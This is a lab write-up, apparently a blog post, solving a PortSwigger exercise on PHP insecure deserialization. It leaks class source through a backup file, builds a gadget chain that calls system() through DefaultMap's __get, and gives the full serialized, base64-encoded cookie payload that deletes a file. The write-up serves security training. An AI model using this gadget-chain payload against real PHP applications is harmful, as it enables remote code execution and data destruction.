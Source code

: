 # Developing a custom gadget chain for PHP deserialization | Jan 12, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-php-deserialization), you'll learn: Developing a custom gadget chain for PHP deserialization! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★☆☆☆☆

## Background

This lab uses a serialization-based session mechanism. By deploying a custom gadget chain, you can exploit its [insecure deserialization](https://portswigger.net/web-security/deserialization) to achieve remote code execution. To solve the lab, delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-9/images/Pasted%20image%2020230112194055.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-9/images/Pasted%20image%2020230112194104.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-9/images/Pasted%20image%2020230112194117.png)

**When we successfully logged in, it'll set a new session cookie:**
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5andzbjF4emwwaWI4dTVhNTF5N3NlNTZ6cHN5bDdoNCI7fQ==
```

In the last character, it has a `=`, which is a padding for base64 encoding.

**Let's decode that:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:44:10
╰─○ echo 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5andzbjF4emwwaWI4dTVhNTF5N3NlNTZ6cHN5bDdoNCI7fQ==' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"yjwsn1xzl0ib8u5a51y7se56zpsyl7h4";}
```

As you can see, it's a PHP serialized object.

**It has an object called `User`, and that object has 2 attributes: `username` = `wiener`, `access_token` = `yjwsn1xzl0ib8u5a51y7se56zpsyl7h4`.**

**View source page:**
```html
<!-- TODO: Refactor once /cgi-bin/libs/CustomTemplate.php is updated -->
```

In here, we see there is an `<a>` element, which points to `/cgi-bin/libs/CustomTemplate.php`.

**We can try to view the source code by appending a `~`:**
```php
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:47:08
╰─○ curl https://0a64000d04a336b3c12f18a7003a0098.web-security-academy.net/cgi-bin/libs/CustomTemplate.php\~
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

In the class `CustomTemplate`, it has a `__wakeup()` magic method.

> `__wakeup()` magic method is invoked automatically **during** the deserialization process.

So, when the PHP deserialize our session cookie, it'll invoke method `build_product()`.

**Method `build_product()` will then create a new object `Product`, by referring the `default_desc_type` and `desc` attribute from class `CustomTemplate`.**

Also, class `DefaultMap` has a magic method called `__get()`. It'll be invoked when reading data from inaccessible (protected or private) or non-existing properties.

This magic method will then invoke method `call_user_func()`, which will execute any function that is passed into it via the `DefaultMap->callback` attribute. The function will be executed on the `$name`, which is the non-existent attribute that was requested.

Armed with above information, we can start to construct our custom gadget chains.

- **Goal: Invoke `system('rm /home/carlos/morale.txt')` via `__get` magic method in class `DefaultMap`.**

**PHP payload:**
```php
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = system
```

1. We can control class `CustomTemplate`'s attribute `default_desc_type` and `desc`, as magic method `__wakeup()` will be automatically invoked
2. Then we set the `CustomTemplate->desc` attribute's value to object `DefaultMap`. This will allow us to parse the `CustomTemplate->desc` attribute to `Product->desc`
3. After that, the `Product` constructor will find `DefaultMap->default_desc_type` attribute
4. Since object `DefaultMap` doesn't have `default_desc_type` attribute, it'll then invoke `__get()` magic method
5. Finally, that magic method will invoke `system` from `DefaultMap->callback` on the `default_desc_type`, which is set to our shell command

**serialized PHP object payload:**
```php
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:6:"system";}}
```

**Final payload:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 20:50:46
╰─○ echo 'O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:6:"system";}}' | base64 -w0
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjg6ImNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fX0K
```

**Let's copy and paste that base64 encoded payload to our session cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-9/images/Pasted%20image%2020230112205224.png)

**Finally, refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-9/images/Pasted%20image%2020230112205235.png)

Nice!

# What we've learned:

1. Developing a custom gadget chain for PHP deserialization